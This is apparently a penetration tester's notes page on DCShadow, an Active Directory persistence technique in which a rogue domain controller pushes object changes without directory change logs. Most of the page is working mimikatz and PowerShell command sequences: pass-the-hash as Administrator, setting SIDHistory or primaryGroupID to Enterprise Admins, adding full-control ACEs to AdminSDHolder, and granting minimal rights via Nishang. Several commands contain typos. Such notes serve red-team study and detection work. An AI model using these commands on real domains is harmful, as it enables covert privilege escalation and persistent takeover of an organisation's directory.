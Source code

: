 # AD - Forest Persistence - DCShadow

## Description

* DCShadow registers temporarily a new DC in the target domain and uses it to "push" attributes likes SIDHisotry, SPN etc. on a specific object. Without leaving change logs for modified object
* The new DC is registered by modifying the Configuration container, SPN of an existing computer object where the attackers runs the attack from and couple of RPC services
* Because the attribute are changed from a "DC", there are no dictory change logs on the actual DC for the target object.&#x20;
* What exactly was changed using DCShadow would not be visible, other Logs etc. of course will be generated

### Requirement

* Be default DA privs are required to use DCSHadow
* The attacker's machine must be part fo the root domain => If you have a Forest - you need to be DA on the forest
* Two mimikatz instances
*   DCShadow with minimal permissions by modifying the ACLS of:

    * Domain Object\
      DS-InstallReplica (Add-Remove Replica in Domain)\
      DS-Replication-Manage-Topology (Manage Replication Technology)\
      DS-Replication-Sychronize (Replication Synchronization)
    * The Sites object (and its children) in the Configuraiton container\
      CreateChild and DeleteChild
    * The object of the computer which is registered as a DC\
      WriteProperty (Not Write)
    * The target object\
      WriteProperty (Not Write)

    \==> Use _Set-DCShadowPermissions from Nishang_ for setting the permissions

### Tool

**Process**\
One mimikatz instance to start RPC server with SYSTEM privs and specific attributes set:\
!+\
!processtoken\
token::whoami\
lsadump::dcshadow /object:targetUsername /attrubte:Description /value="New Value of Description"\
&#x20;  this will set a new description for the user\
PowerView: Get-NetUser targetUsername\


Second mimikatz instance with enough privs (DA or otherwise like minimal permissions) to push the values:\
Start mimikatz.exe because Invoke-Mimikatz does not show proper output for dcshadow\
privilege::debug\
sekurlsa:pth /user:Administrator /domain:dom.local /ntlm:hash /impersonate\
lsadump::dcshadow /push\
token::whoami

**Using Nishang to set minimal Permissions to target object / Use DCShadow as user currentuser to modify username1 object from machine attacker-machine-hostname**



{% code overflow="wrap" %}
```powershell
Set-DCShadowPermissions -FakeDC attacker-machine-hostname -samaccountname username1 -username currentuser -verbose 
==> now only 1 Mimikatz sessions is requried because username1 can be used and only do lsadump::dcshadow /push
```
{% endcode %}

**Once we have permissions, set SIDHistory of a user account to Enterprise Admin or Domain Admin**&#x20;

{% code overflow="wrap" %}
```powershell
lsadump::dcshadow /object:user1 /attribute:SIDHistory /value:S-1-5......

To use without DA, see above:
Set-DCShadowPermissions -FakeDC attacker-machine-hostname -samaccountname username1 -username currentuser -verbose
```
{% endcode %}

**Once we have permissions, set primaryGroupID of a user account to Enterprise Admin or Domain Admin e**

{% code overflow="wrap" %}
```powershell
lsadump::dcshadow /object:user1 /attribute:primaryGroupID /value:519

Note: The user show up as member of EA in some enumeration like net group "Enterpise Admins" /domain
```
{% endcode %}

**Modify ntSecurityDescriptor for AdminSDHolder to add Full Fontrol for a User**

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell">Get the current ACL for AdminSDHolder:
(New-Object System.DirectoryServices.DirectoryEntry("LDAP://CN=AdminSDHolder,CN=System,DC=dom,DC=local")).psbase.ObjectSecurity.sddl

Just need to append a Full Control ACE from above for SY/BA/DA with our users SID at the end 
<strong>lsadump::dcsahdow /object:CN=AdminSDHolder,CN=System,DC=dom,DC=local /attribute:ntSecurityDescriptor /value:[full modified ACL from above plus following](A;;CC...;;SIDfromyourUser)
</strong></code></pre>

**Shadowception - Run DCShadow from DCShadow itself**&#x20;

{% code overflow="wrap" %}
```powershell
Get the current ACL for the domain:
(New-Object System.DirectoryServices.DirectoryEntry("LDAP://DC=dom,DC=local")).psbase.ObjectSecurity.sddl | set-clipboard

Append the following ACEs with our User SID on the domain object (see above):
```
{% endcode %}

![](<../.gitbook/assets/image (4) (3).png>)

<pre><code><strong>On the attacker computer object (A;;WP;;;UserSID)
</strong>On the target user object (so that it can modify its own attributes) (A;;WP;;;UserSID)
On the sites object in configuration container (A;CI;CCDC;;;UserSID)

lsadump::dcshadow /stack /object:DC=dom,DC=local /attribute:ntSecurityDescriptor /value:[full modified ACL from above plus following from above]
==> Do this for all 3 domain object, attacker computer, target user and sites object
</code></pre>

